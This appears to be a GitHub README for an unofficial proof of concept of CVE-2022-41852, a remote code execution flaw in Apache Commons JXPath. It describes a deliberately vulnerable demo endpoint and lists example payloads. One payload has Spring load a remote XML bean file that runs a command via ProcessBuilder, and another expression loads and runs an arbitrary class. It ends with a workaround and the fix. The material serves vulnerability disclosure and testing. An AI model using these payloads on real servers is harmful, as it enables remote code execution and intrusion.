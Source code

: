 # CVE-2022-41852

CVE-2022-41852 Proof of Concept (unofficial)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Warxim](https://github.com/Warxim) |
| Url      | [https://github.com/Warxim/CVE-2022-41852](https://github.com/Warxim/CVE-2022-41852)                                               |
| Stars    | 68                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2022-41852* hacking* jxpath* penetration-testing* pentesting* proof-of-concept* rce* remote-code-execution* security* vulnerability

</details>

## Readme

# Remote Code Execution in JXPath Library (CVE-2022-41852) Proof of Concept

CVE-2022-41852 allows attackers to execute code on the application server.

You can read more about this vulnerability here:
- https://hackinglab.cz/en/blog/remote-code-execution-in-jxpath-library-cve-2022-41852/

<i><b>Note:</b> I am not an author of this CVE. I have only created this proof of concept.</i>

## Useful Links
- [JXPath GitHub](https://github.com/apache/commons-jxpath)
- [JXPath Website](https://commons.apache.org/proper/commons-jxpath/users-guide.html)
- [MITRE CVE-2022-41852](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41852)
- [NIST CVE-2022-41852](https://nvd.nist.gov/vuln/detail/CVE-2022-41852)

## Vulnerability Description
JXPath library has support for running functions in XPath expressions 
(see [Official User Guide](https://commons.apache.org/proper/commons-jxpath/users-guide.html#Standard_Extension_Functions)).

For example, methods `JXPathContext.getValue(path)` and `JXPathContext.iterate(path)` are dangerous 
if you let user send input into the path parameter.

## PoC Description
This PoC starts simple Spring server with two endpoints:

- `/vulnerable-example?path=[path]`
- `/secure-example?path=[path]`

These endpoints have only one query parameter "path". 

### Possible Request URLs
Following requests will work fine (will not cause any problems):
- http://localhost:8080/secure-example?path=name
- http://localhost:8080/secure-example?path=website
- http://localhost:8080/secure-example?path=/
- http://localhost:8080/vulnerable-example?path=name
- http://localhost:8080/vulnerable-example?path=website
- http://localhost:8080/vulnerable-example?path=/

Following requests will cause code to be executed:
- http://localhost:8080/vulnerable-example?path=java.lang.System.exit(42)
- http://localhost:8080/vulnerable-example?path=java.lang.Thread.sleep(10000)

## Example Payloads
Example payloads to detect CVE-2022-41852:
- `java.lang.System.exit(42)`
- `java.lang.Thread.sleep(10000)`
- `/|java.lang.System.exit(42)`
- `|java.lang.System.exit(42)`

There might be various ways to execute commands. One of them is using Spring's ClassPathXmlApplicationContext:
- `org.springframework.context.support.ClassPathXmlApplicationContext.new("https://warxim.com/calc.xml")`

In the XML file, you can define bean configuration, for example, you can create instance of `ProcessBuilder`
and run specified command on the server by initializing the bean using `start()` method. 
In the following example, calculator will be opened on Windows machine:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="commandRunner" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><![CDATA[calc]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

There is also a way to load new classes by traversing the context bean, for example, the following code will load class `com.warxim.dangerous.DangerousClass`, create its instance and call method `run("warxim")`:
```java
JXPathContext context = JXPathContext.newContext(new Data());
String jxPath = "run(newInstance(loadClass(getClassLoader(getClass(/)), \"com.warxim.dangerous.DangerousClass\")), \"warxim\")"
Object result = context.getValue(jxPath);
```
Notice that we have to call the object methods by putting the object that contains them as a first parameter.

## Workaround for CVE-2022-41852

It is possible to disable functions in JXPathContext by setting functions field to empty `FunctionLibrary`.
```java
// Create path context for person object
var pathContext = JXPathContext.newContext(person);

// Set empty function library
pathContext.setFunctions(new FunctionLibrary());

// getValue will throw org.apache.commons.jxpath.JXPathFunctionNotFoundException
return pathContext.getValue(path);
```
<i><b>Note:</b> It will disable all functions, so even functions like `size()` will not be available.</i>

## Fix
The fix is being developed, see https://github.com/apache/commons-jxpath/pull/26



## Get the content

```
git clone https://github.com/Warxim/CVE-2022-41852
cd CVE-2022-41852
```

{% embed url="https://github.com/Warxim/CVE-2022-41852" %}

<figure><img src="https://avatars.githubusercontent.com/u/13665987?v=4" alt=""><figcaption><p>Warxim</p></figcaption></figure>
